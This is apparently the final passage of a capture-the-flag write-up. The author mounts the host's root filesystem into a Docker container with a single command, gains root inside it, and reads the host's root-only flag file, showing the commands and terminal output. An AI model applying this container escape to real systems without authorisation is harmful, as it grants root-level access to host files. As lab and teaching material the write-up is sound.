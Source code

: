 ```
harrison@harrison:~/docker$ ls
docker docker-containerd docker-containerd-ctr docker-containerd-shim docker-init docker-proxy docker-runc dockerd
harrison@harrison:~/docker$ ./docker
```
Now let's run the container.  We're going to mount the root filesystem for the underlying host at the /home directory in the new container:

```
./docker run -it -v /:/home/ ubuntu bash
```
```
harrison@harrison:~/docker$ ./docker run -it -v /:/home/ ubuntu bash
root@bec2ede58b0f:/#
```
Note that the prompt changes.  We're now the root user in this new container.  Let's take a look at the home directory:

```
cat /home/root/flag.txt
```
```
root@bec2ede58b0f:/# ls # This is the container file system
bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
root@bec2ede58b0f:/# cd /home
root@bec2ede58b0f:/home# ls # This is the file system on the host!
bin boot dev etc home initrd.img initrd.img.old lib lib64 lost+found media mnt opt proc root run sbin srv swapfile sys tmp usr var vmlinuz vmlinuz.old
root@bec2ede58b0f:/home# cat root/flag.txt
Do you think you are out?

Just kidding, here is your flag: 1xcDF933mce
```
And that's that!  I hope you enjoyed reading this!  I'm certainly not and expert at pentesting, but I'm going to try and continue doing writeups of boxes that I'm successful at breaking into.
